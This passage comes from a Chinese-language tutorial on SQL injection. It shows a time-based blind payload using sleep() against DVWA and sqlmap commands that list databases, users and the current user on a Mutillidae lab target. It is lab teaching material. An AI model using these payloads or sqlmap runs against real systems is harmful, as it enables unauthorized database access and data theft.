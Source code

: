 ```mysql
SQL注入语句解析：
mysql> select first_name,last_name from dvwa.users where user_id='1' and sleep(5) -- '
```

### 5、SQLmap自动注入

 **SQ注入比较好用的工具,首推开源工具 SQLmap。SQLmap是个国内外著名的安全稳定性测试工具,可以用来进行自动化检测,利用SQL注入漏洞,获取数据库服务器的权限。它具有功能强大的检测引擎,针对各种不同类型数据库的安全稳定性测试的功能选项,包括获取数据库中有的数据,访可操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。**
　　 **SQLmapx-MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2,SQLite, Firebird, Sybase和 SAP MaxDB等数据库的各中安全漏洞检测**

> sqlmap -hh | less   获得帮助

 ![15](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230106.png)

#### 5.1、GET方法注入 + 数据获取

有登陆权限漏洞的靶机 OWASPMutillidae ‖

 ![16](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230319.png)

通过指定参数注入（复制网页链接，再加上参数)

```mysql
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username
```

 ![4](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230512.png)

 ![5](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230521.png)

> 获取所有数据库

```mysql
#查看所有数据库
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username --dbs
```

 ![6](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230801.png)

> 获取所有用户

```mysql
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username --users
```

 ![7](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210903230949.png)

> 获取当前用户

```mysql
sqlmap -u "http://192.168.44.138/mutillidae/index.php?page=user-info.php&username=zhuzhuxia&password=123456&user-info-php-submit-button=View+Account+Details"  --batch -p username --current-user
```
